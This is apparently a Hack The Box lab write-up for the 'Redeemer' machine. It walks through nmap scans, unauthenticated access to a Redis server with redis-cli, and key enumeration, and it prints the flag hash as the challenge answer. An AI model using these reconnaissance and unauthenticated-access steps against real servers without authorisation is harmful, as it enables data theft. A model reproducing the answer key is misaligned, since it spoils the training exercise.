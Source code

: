 # Redeemer from Hack The Box

By Herman Detwiler

[Back](/Hack-The-Box#hack-the-box-write-ups)
## tags:
Linux, Redis, Enumeration, Penatration Tester level 1, Attacks/Anonymous/Guest access.


## Settup

1. Connect to startingpoint VPN
2. Spawn machine
3. Store machine ip in a variable for further use

```bash
export ip=10.129.183.54
```

## Tasks

### 1.) Which TCP port is open on the machine.

This can be done by performing an nmap port scan on the target of the top 1000 ports

```bash
sudo nmap $ip
```
```
Nmap scan report for 10.129.183.54
Host is up (0.083s latency).
All 1000 scanned ports on 10.129.183.54 are in ignored states.
Not shown: 1000 closed tcp ports (reset)

Nmap done: 1 IP address (1 host up) scanned in 7.72 seconds
                                                                 
```
As this scan did not find any open ports, a follow-up scan of all ports can be performed.

```
sudo nmap -p- $ip
```

```
Nmap scan report for 10.129.183.54
Host is up (0.065s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 60.18 seconds
```

This shows me that there is 1 open tcp port: `6379`

### 2.)  Which service is running on the port that is open on the machine? 

While the basic scan shows that redis is running on tcp port 6379, a service scan will verify this finding:

```bash
sudo nmap -p 6379 -sC -sV $ip
```
```
Nmap scan report for 10.129.183.54
Host is up (0.054s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.43 seconds

```
This confirms `Redis` running on port 6379

### 3.)  What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database 

Doing some googling we can find the redis website at https://redis.io/ and find the following quote on the homepage:

*The open source, in-memory data store used by millions of developers as a database, cache, streaming engine, and message broker.*


further reading may be helpful, so I also take note of the docs url https://redis.io/docs/

However, I can be pretty certain that this is an `in-memory database`


### 4.)  Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments. 

From the docs under tools I can find that the most popular CLI is called `redis-cli`

### 5.)  Which flag is used with the Redis command-line utility to specify the hostname? 

After confirming that redis-cli is part of the kali repo, I am able to get commands with `redis-cli -h` and no other arguments to bring up a help menu

```
└─$ redis-cli -h                                                                                                    
redis-cli 6.0.16                                                                                                    
                                                                                                                    
Usage: redis-cli [OPTIONS] [cmd [arg [arg ...]]]                                                                    
  -h <hostname>      Server hostname (default: 127.0.0.1).                                                          
  -p <port>          Server port (default: 6379).                                                                   
  -s <socket>        Server socket (overrides hostname and port).                                                   
  -a <password>      Password to use when connecting to the server.                                                 
                     You can also use the REDISCLI_AUTH environment                                                 
                     variable to pass this password more safely                                                     
                     (if both are used, this argument takes precedence).                                            
  --user <username>  Used to send ACL style 'AUTH username pass'. Needs -a.                                         
  --pass <password>  Alias of -a for consistency with the new --user option.                                        
  --askpass          Force user to input password with mask from STDIN.                                             
                     If this argument is used, '-a' and REDISCLI_AUTH                                               
                     environment variable will be ignored.                                                          
  -u <uri>           Server URI.                                                                                    
  -r <repeat>        Execute specified command N times.                                                             
  -i <interval>      When -r is used, waits <interval> seconds per command.                                         
                     It is possible to specify sub-second times like -i 0.1.                                        
  -n <db>            Database number.                                           
```
From this output I can see that hostname can be set with the `-h` flag

### 6.)  Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server? 

Again from reading the docs I can see that the command is `info` however first I need to connect to this redis server with `readis-cli -h 10.129.183.54:6379`

```bash
redis-cli -h 10.129.183.54:6379> info                                                                                            
# Server                                                                                                            
redis_version:5.0.7                                                                                                 
redis_git_sha1:00000000                                                                                             
redis_git_dirty:0                                                                                                   
redis_build_id:66bd629f924ac924                                                                                     
redis_mode:standalone                                                                                               
os:Linux 5.4.0-77-generic x86_64                                                                                    
arch_bits:64                                                                                                        
multiplexing_api:epoll                                                                                              
atomicvar_api:atomic-builtin                                                                                        
gcc_version:9.3.0                                                                                                   
process_id:751                                                                                                      
....ect                                                                                              
```                                              

### 7.)  What is the version of the Redis server being used on the target machine? 

From the info command that I ran, I can see the redis version is `5.0.7`

### 8.)  Which command is used to select the desired database in Redis? 


From the docs I find I can select a database with the `select` command

### 9.)  How many keys are present inside the database with index 0? 

From the info command, I can see this information present:

```
#Keyspace
db0:keys=4,expires=0,avg_ttl=0

```


So the number of keys is `4`

### 10.)  Which command is used to obtain all the keys in a database? 


From google
```
Redis KEYS command
The Redis KEYS command returns all the keys in the database that match a pattern (or all the keys in the key space). Similar commands for fetching all the fields stored in a hash is HGETALL and for all fetching the members of a SMEMBERS. The keys in Redis themselves are stored in a dictionary (aka a hash table).Nov 1, 2016
```

so `KEYS *` returns all keys

```bash
10.129.183.54:6379> KEYS *
1) "temp"
2) "numb"
3) "flag"
4) "stor"
10.129.183.54:6379> 
```

### 11.) Submit root flag


Since I can see there is a key titled "flag" I can get the value for that key with the `GET` command

```
10.129.183.54:6379> GET flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.183.54:6379> 

```

So the root flag is `03e1d2b376c37ab3f5319922053953eb`
